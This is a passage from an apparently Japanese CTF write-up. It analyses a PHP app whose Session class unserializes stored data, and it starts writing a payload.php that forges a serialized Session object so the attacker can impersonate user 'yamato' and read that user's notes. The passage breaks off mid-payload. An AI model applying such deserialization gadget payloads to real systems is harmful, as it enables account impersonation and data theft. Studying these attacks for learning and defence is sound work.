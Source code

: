 `PDO` みたいなクラス。`__wakeup()` メソッドがあり、その中で `connect()` メソッドを呼んで DB に接続しています。使えそうです。

続いて `classes/Session.php`。

```php
<?php
class Session
{
  public $id = '';
  public $db = null;
  private $_param = array();
  public function __construct()
  {
    session_start();
    $this->id = session_id();
    $this->db = Db::getInstance();
    $this->load();
  }
  public function load()
  {
    $sql = 'select `param` from `session` where `id` = :id';
    $session = $this->db->fetch($sql, array(':id' => $this->id));
    $this->_param = (isset($session['param']) === true) ? unserialize($session['param']) : array();
  }
  public function save()
  {
    $sql = 'select count(*) as __count from `session` where `id` = :id';
    $session = $this->db->fetch($sql, array(':id' => $this->id));
    $count = (int)$session['__count'];

    $param = serialize($this->_param);
    $sql = ($count === 1) ?
      'update `session` set `param` = :param where `id` = :id' :
      'insert into `session` (`id`, `param`) values (:id, :param)';
    $this->db->query($sql, array(':id' => $this->id, ':param' => $param));
  }
  public function __destruct()
  {
    $this->save();
  }
}
```

セッション管理を行っているクラス。`id` プロパティにはセッション ID、`db` プロパティには先ほどの `Db` クラスのオブジェクト、private な `_param` プロパティには配列でセッションデータが入っている様子です。  
`__destruct()` メソッドでは `save()` メソッドが呼ばれています。`save()` メソッドでは自身の持つセッション ID とセッションデータの更新か挿入を行っています。

この `Session` クラスを利用して `_param` プロパティが `array('user_id' => 'yamato')` であるセッションを作ることで、`yamato` さんに成りすましてノートをのぞき見ることができそうです。

では、攻撃してみます。

```
$ cat payload.php
<?php
class Db {}
class Session {
  public $id;
  public $db;
  private $_param = array();
  function __construct($id, $user_id) {
    $this->id = $id;
    $this->db = new Db();
    $this->_param['userId'] = $user_id;
  }
}
```